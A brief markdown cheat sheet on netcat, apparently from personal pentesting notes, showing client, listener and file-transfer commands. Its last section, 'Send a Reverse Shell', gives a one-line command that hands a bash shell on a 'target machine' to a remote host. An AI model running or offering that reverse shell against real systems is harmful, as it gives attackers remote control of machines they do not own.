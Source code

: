 # Netcat

Detailed cheat sheet available here: [https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)

`nc` can be used as shorthand for `netcat` on some machines.

## Basic Client

I.e. connect to an arbitrary port on an IP address:

```bash
$ nc [IP] [PORT]
```

## Basic Listener

I.e. receive connections on an arbitrary port:

```bash
$ nc -lp [PORT]
```

## File Transfer

Setup a listener on host that pushes to an outfile:

```bash
$ nc -lp [PORT] > /path/to/outfile
```

From the client (remote machine), push a file back to the listener:

```bash
$ nc -w3 [IP] [PORT] < /path/to/infile
```

## Send a Reverse Shell

From target machine:

```bash
$ nc [HOST_IP] [PORT] -e /bin/bash
```

# Tags

#cheat-sheet 